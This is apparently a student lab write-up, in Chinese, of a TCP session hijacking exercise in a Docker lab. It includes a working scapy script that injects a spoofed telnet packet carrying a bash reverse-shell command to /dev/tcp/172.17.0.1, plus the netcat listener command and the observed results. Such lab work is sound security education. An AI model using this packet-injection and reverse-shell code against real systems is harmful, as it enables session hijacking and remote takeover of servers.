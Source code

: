   

### 3.5.2 反向`shell`

- 该攻击过程中的`Wireshark`数据见`3.6.利用scapy自动攻击(反向shell).pcapng`

- 与`3.5.1 普通命令`方法相似，构造自动攻击程序`hijacking_auto_shell.py`如下

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  SRC  = "172.17.0.3"   # Server IP
  DST  = "172.17.0.2"   # Client IP
  PORT = 23             # Server telnet port
  
  def spoof(pkt):
      old_ip  = pkt[IP]
      old_tcp = pkt[TCP]
  
      #############################################
      ip = IP(src = old_ip.dst, dst = old_ip.src)
      tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
      data = "\r/bin/bash -i > /dev/tcp/172.17.0.1/11803 0<&1 2>&1\r"
      #############################################
  
      pkt = ip/tcp/data
      send(pkt,verbose=0)
      ls(pkt)
      quit()
  
  f = 'tcp and src host {} and dst host {} and src port {}'.format(SRC, DST, PORT)
  sniff(filter=f, prn=spoof, iface="docker0")
  ```

- 首先使用户机使用`telnet`连接服务机，在攻击机的`11803`端口开启监听：`nc -l 11803 -v`，再在攻击机使用程序`hijcaking_auto_shell.py`进行攻击：`sudo python3 ./hijcaking_auto_shell.py`，为了激活攻击程序，在用户机的`telnet`中任意输入一个字符，可以观察到`scapy`发送了攻击报文
  ![3.5.4.scapy发送了攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204131958185.png)

- 攻击后攻击机的`nc`即可获得服务机的`shell`，攻击成功
  ![3.5.5.攻击后攻击机的nc即可获得服务机的shell，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204131958504.png)

- `scapy`发送的攻击报文如下
  ![3.5.6.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204131959369.png)

- 追踪反向`shell`的`TCP`流如下，与攻击机发送的指令与结果相同
  ![3.5.7.追踪反向shell的TCP流](https://raw.githubusercontent.com/BIIIANG/pic/main/202204131959340.png)
  
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 期待看到用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 观察到了用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 是。





